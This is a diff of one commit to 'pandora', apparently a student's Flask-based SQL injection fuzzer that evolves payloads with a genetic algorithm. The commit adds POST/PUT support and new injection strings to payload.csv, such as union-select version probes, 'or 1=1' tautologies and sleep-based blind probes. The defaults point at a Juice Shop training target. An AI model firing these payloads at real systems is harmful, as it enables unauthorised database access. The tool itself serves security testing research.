

Before and after one commit to bhrdn/pandora, a Flask app: page / in a window 1280 px wide. Shown: the top 489 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
feat: request method (post, put)

```diff
--- a/app/etc/payload.csv
+++ b/app/etc/payload.csv
@@ -1,6 +1,7 @@
 fu_1,fu_2,fu_3,fu_4
 ',,,#
 \",,,#
+',union select 1,version(),-- -
 \",or 1=0,union select version(),-- -
 \",or 1=0,union select 31333337,-- -
 )\",or false,union select sleep(TIMEOUT_SLEEP),-- -
@@ -16,3 +17,7 @@ fu_1,fu_2,fu_3,fu_4
 ',or 'a' = 'b',"union select null,null,null,null,version()",-- - - -
 ',or 'a' = 'b',"union select null,null,null,null,31333337",-- - - -
 ',and 1=1,"union select null,null,null,null,sleep(TIMEOUT_SLEEP)",-- - -
+',or 1=1,,-- -
+',or true,,-- -
+\",or 1=1,,-- -
+\",or true,,-- -
--- a/app/project/blueprints/index/controller.py
+++ b/app/project/blueprints/index/controller.py
@@ -8,6 +8,7 @@ import httpx
 import time
 import textdistance
 import random
+import json
 
 bp_index = Blueprint('app_index', __name__, url_prefix='/')
 
@@ -30,6 +31,14 @@ def handle_process_event(datas):
     APPROX_GAMMA = datas['config']['approx'][2]
     APPROX_DELTA = datas['config']['approx'][3]
 
+    RAW_REQUEST = {
+        'method' : datas['target']['request']['method'],
+        'type' : datas['target']['request']['type'],
+        'body' : datas['target']['request']['body'],
+    }
+
+    RAW_REQUEST['body'] = '{}' if RAW_REQUEST['body'] == '' else RAW_REQUEST['body']
+
     def cookies_parser(raw):
         return dict(map(lambda x: x.split('='), map(lambda x: x.replace(' ', ''), raw.split(';'))))
 
@@ -38,8 +47,6 @@ def handle_process_event(datas):
         COOKIES = cookies_parser(datas['target']['cookies'])
     except:
         COOKIES = {}
-
-    COOKIES
 
     KNOWN_RESPONSE_ERROR = datas['config']['advance']['kre']
     KNOWN_RESPONSE_TEXT = datas['config']['advance']['krq']
@@ -75,7 +82,7 @@ def handle_process_event(datas):
         return result
 
     ## load public payload
-    datas = pd.read_csv('etc/payload.csv')
+    datas = pd.read_csv('/mnt/c/Users/bhrdn/Documents/Kuliah/TA/pandora/app/etc/payload.csv')
 
     ## remove nan values
     for attr in datas:
@@ -104,7 +111,16 @@ def handle_process_event(datas):
         emit('logger', f'Generation: {len(GENERATION)} --> Start')
         for i in range(len(chrome)):
             start_time = time.perf_counter()
-            response_text = httpx.get(URL.replace('FUZZ', ' '.join(chrome.iloc[i].tolist())), cookies=COOKIES, timeout=8).text
+            current_payload = ' '.join(chrome.iloc[i].tolist())
+
+            if RAW_REQUEST['method'] == 'GET':
+                response_text = httpx.get(URL.replace('FUZZ', current_payload), cookies=COOKIES, timeout=8).text
+            else:
+                try:
+                    response_text = httpx.post(URL.replace('FUZZ', current_payload), cookies=COOKIES, json=json.loads(RAW_REQUEST['body'].replace('FUZZ', current_payload))).text
+                except:
+                    response_text = httpx.post(URL.replace('FUZZ', current_payload), cookies=COOKIES, data=RAW_REQUEST['body'].replace('FUZZ', current_payload)).text
+
             end_time = time.perf_counter() - start_time
 
             emit('logger', f'Generation: {len(GENERATION)} - Chromosome: {i + 1} --> Known Response Error')
@@ -135,9 +151,9 @@ def handle_process_event(datas):
                 score_ld_response.append( APPROX_BETA )
 
         chrome['score_error'] = score_error
+        chrome['score_ld_response'] = score_ld_response
+        chrome['score_blind'] = score_blind
         chrome['score_reflected'] = score_reflected
-        chrome['score_blind'] = score_blind
-        chrome['score_ld_response'] = score_ld_response
         chrome['score_total'] = [sum(chrome.iloc[i,-4:]) for i in range(len(chrome))]
 
         ## sort by higher score
@@ -153,7 +169,7 @@ def handle_process_event(datas):
             initial_population = []
             for i in range(0, GAP, 2):
                 TARGET_FU_CROSSOVER = random.choices(list(range(4)), [.2, .2, .5, .1]).pop()
-                TARGET_MUTATION = random.choices(['change_case_types', 'repeat_query', 'replace_whitespace']).pop()
+                TARGET_MUTATION = random.choices(['change_case_types', 'repeat_query', 'replace_whitespace'], [.5, .2, .3]).pop()
 
                 prev = chrome.iloc[i,:4].tolist()
                 next = chrome.iloc[i + 1,:4].tolist()
--- a/app/project/static/js/script.js
+++ b/app/project/static/js/script.js
@@ -121,14 +121,15 @@ socket.on('result', (messages) => {
 	for (let i = 0; i < messages.length; i++) {
 		let raw_tables = `<tr><th scope="row">${i + 1}</th>`;
 		let test_case_result = [];
-		let test_case_index = [0, 1, 2, 3];
+		let test_case_index = 0;
 
 		for (data of messages[i]) {
-			if (i in test_case_index) {
+			if (test_case_index < 4) {
 				test_case_result.push(data);
 			}
 
 			raw_tables += `<td class="text-center">${data}</td>`;
+			test_case_index -= -1;
 		}
 
 		raw_tables += '<td class="text-center">';
@@ -155,8 +156,15 @@ socket.on('result', (messages) => {
 });
 socket.on('finished', () => buttonToggle());
 
-document.getElementById('advance_kre').append('error in your SQL syntax');
-document.getElementById('advance_krq').append('-MariaDB');
+document
+	.getElementById('advance_kre')
+	.append('You have an error in your SQL syntax');
+
+for (const krq of ['-MariaDB-\n', 'admin@juice-sh.op']) {
+	let advance_krq = document.getElementById('advance_krq');
+	advance_krq.append(krq);
+}
+advance_krq.style.height = '10%';
 
 document.addEventListener(
 	'click',
@@ -221,6 +229,11 @@ document.addEventListener(
 				target: {
 					url,
 					cookies,
+					request: {
+						method: document.getElementById('request-method').value,
+						type: document.getElementById('request-type').value,
+						body: document.getElementsByClassName('request-body')[0].value,
+					},
 				},
 				config: {
 					general,
--- a/app/project/templates/configuration/approx.html
+++ b/app/project/templates/configuration/approx.html
@@ -76,8 +76,8 @@
 				<h6 class="card-subtitle mb-2 text-muted">Reflected Custom Query</h6>
 				<p class="card-text">
 					Check known response query from
-					<code>version function</code> and
-					<code>select query</code>
+					<code>version function</code>, <code>select query</code> and
+					<code>others.</code>
 				</p>
 			</div>
 		</div>
--- a/app/project/templates/partials/fuzzer.html
+++ b/app/project/templates/partials/fuzzer.html
@@ -1,5 +1,15 @@
 <div class="row mt-4">
 	<h5>URL</h5>
+
+	<div class="col-2">
+		<select class="form-control" id="request-method">
+			<option value="GET">GET</option>
+			<option value="POST">POST</option>
+			<option value="PUT">PUT</option>
+		</select>
+	</div>
+
+	<div class="col">
 		<div class="input-group flex-nowrap">
 			<input
 				type="text"
@@ -9,10 +19,26 @@
 			/>
 		</div>
 	</div>
+</div>
 
 <div class="row mt-4">
+	<div class="col">
 		<h5>Cookies</h5>
 		<div class="col">
-		<textarea class="form-control cookies"></textarea>
+			<textarea class="form-control cookies" rows="5"></textarea>
 		</div>
 	</div>
+
+	<div class="col">
+		<h5>Raw Data</h5>
+
+		<select class="form-control" id="request-type">
+			<option value="json">application/json</option>
+			<option value="text">plain/text</option>
+		</select>
+		<br />
+		<div class="col">
+			<textarea class="form-control request-body"></textarea>
+		</div>
+	</div>
+</div>
```
Lines whose indentation alone changed are shown as unchanged.
